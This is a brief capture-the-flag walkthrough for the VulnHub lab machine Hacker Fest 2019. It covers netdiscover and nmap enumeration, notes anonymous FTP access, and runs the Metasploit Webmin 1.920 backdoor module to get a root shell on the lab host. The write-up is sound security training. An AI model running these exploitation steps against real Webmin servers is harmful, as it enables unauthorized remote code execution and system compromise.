 ```yaml
---
published: false
---
```

**Url**: [HF VulnHub](https://www.vulnhub.com/entry/hacker-fest-2019,378/) 

**Difficulty**: Easy 

**Author**: Martin Haller

### Enumeration

Firstly, a netdiscover scan will reveal how the machine can be identified on the network:

<pre>netdiscover -i eth1</pre>
    
![netdiscover](https://imgur.com/7ukhwVk.png)

Then an nmap scan:

<pre>nmap -p- -A 192.168.56.112</pre>

![nmap](https://imgur.com/oJwydwu.png)

The port scan reveals ports 21 (ftp), 22 (ssh) and 10000 which seems to be hosting Webmin. I will attempt to connect via FTP via Anonymous. This was an extremely easy way to gain access to all the wordpress websites files, however I will be exploring other methods which require more exploitation. 

### Webmin

Some research shows a Webmin 1.920 vulnerability. I use searchsploit to find these vulnerabilities. 
I am particularly interested in the Unauthenticated Remote Code Execution. 

![ss](https://imgur.com/LXDbbsN.png)

On metasploit console, we use the webmin exploit and fill out the necessary options as demonstrated below:

<pre>msfconsole
use exploit/linux/http/webmin_backdoor
show options
set rhosts 192.168.56.112
set ssl true
set lhost 192.168.56.101</pre>

![msf](https://imgur.com/82fsLmB.png)

The exploit is ready to go.

<pre>exploit
id</pre>

![root](https://imgur.com/S4YAYol.png)



